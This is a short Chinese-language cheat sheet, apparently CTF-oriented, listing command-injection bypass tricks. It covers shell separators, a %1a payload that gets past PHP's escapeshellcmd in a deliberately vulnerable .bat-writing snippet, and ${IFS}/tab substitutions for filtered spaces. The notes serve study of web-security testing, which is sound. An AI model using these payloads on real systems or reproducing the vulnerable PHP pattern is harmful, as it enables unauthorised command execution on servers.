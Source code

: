 ### Bypass

#### 多条命令

```shell
%0a、%0d    换行符与回车符
|           第一条命令结果作为第二条命令的输入
||          第一条执行失败，执行第二条命令
;           连续指令功能。
&           连接的两条命令都会执行
&&          当第一条执行成功后执行后续命令

echo 666`date` => 666Tue 14 May 2019 07:15:23 AM EDT

# Windows
Copy %0a

%1a - 一个神奇的角色，作为.bat文件中的命令分隔符
<?php
    $command = 'dir '.$_POST['dir'];
    $escaped_command = escapeshellcmd($command);
    file_put_contents('out.bat',$escaped_command);
    system('out.bat');
?>
```

#### 绕过 escapeshellcmd

+ win 下执行 bat

```
<?php
$command = 'dir '.$_POST['dir'];
$escaped_command = escapeshellcmd($command);
var_dump($escaped_command);
file_put_contents('out.bat',$escaped_command);
system('out.bat');
```

执行.bat文件的时候，利用%1a，可以绕过过滤执行命令。

```
dir=../ %1a whoami
```

#### 空格

+ ${IFS}

```shell
cat${IFS}flag
cat${IFS}$9flag
cat$IFS$9flag
cat%09flag  # \0x09 是 TAB
```
